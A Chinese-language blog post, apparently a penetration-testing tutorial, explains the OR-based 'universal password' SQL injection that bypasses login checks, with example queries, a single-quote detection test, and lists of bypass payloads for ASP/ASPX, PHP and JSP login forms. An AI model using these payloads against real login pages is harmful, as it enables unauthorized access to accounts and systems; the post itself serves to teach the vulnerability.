 ```yaml
---
layout: post
tags: SQL注入 渗透测试
title: "SQL注入（二）"
category: SQL注入
excerpt: 万能密码漏洞
---
```

> 如果觉得这篇文章写的不错，来给我[打赏鼓励](https://github.com/miaochiahao/miaochiahao.github.io/blob/master/pictures/alipay.jpg)一下吧~我会写出更好的文章

## OR漏洞简述

该漏洞又称万能密码，效果是通过构造一个恒为真的语句来绕过用户名密码检测，不通过密码即可登录进去

## 漏洞原理

由于程序对用户输入没有进行过滤，我们可以通过构造恒为真的语句来控制查询。

例如在我们输入用户名为 `admin` 密码为 `123` 时，SQL查询语句为

{% highlight sql %}
SELECT * FROM admin WHERE Name='admin' and passWord='123'
{% endhighlight %}


而我们通过构造语句在用户名处输入 `'or 1=1 --` 密码为任意值如 `111`此时查询语句变为

{% highlight sql %}
SELECT * FROM admin WHERE Name=''or 1=1 --' and passWord='111'
{% endhighlight %}

此时的效果是用户名为null，而后面加入了一个恒为真的语句 `1=1` 此时用户名部分是为真的。`--`表示注释掉后面所有的内容，因此在 `--` 后面的内容都失效了，密码不会进行判断。

原本程序设定应该是当这条SQL查询语句查询到用户名密码均正确时返回真，返回结果为真时登陆进界面。此时由于构造了一个为真的语句，我们便可以绕过用户名密码进行登陆。

## 判断方法

在输入框输入单引号进行登陆，若有报错说明没有对单引号进行过滤，存在此漏洞

## 不同类型程序的万能密码

应该注意的是不同类型的数据库程序所使用的语法不同，以下内容转自[chengker](http://chengkers.lofter.com/post/14c64b_379726)的博客

### ASP ASPX万能密码

>* "or "a"="a
>* ')or('a'='a
>* or 1=1--
>* 'or 1=1--
>* a'or' 1=1--
>* "or 1=1--
>* 'or'a'='a
>* "or"="a'='a
>* 'or''='
>* 'or'='or'
>* 1 or '1'='1'=1
>* 1 or '1'='1' or 1=1
>* 'OR 1=1%00
>* "or 1=1%00
>* 'xor
>* 用户名 ' UNION Select 1,1,1 FROM admin Where ''=' （替换表名admin） 密码 1
>* ..admin' or 'a'='a 密码随便

### PHP万能密码

>* 'or 1=1/*
>* User: something
>* Pass: ' or '1'='1

### JSP 万能密码

>* 1'or'1'='1
>* admin' or 1=1/*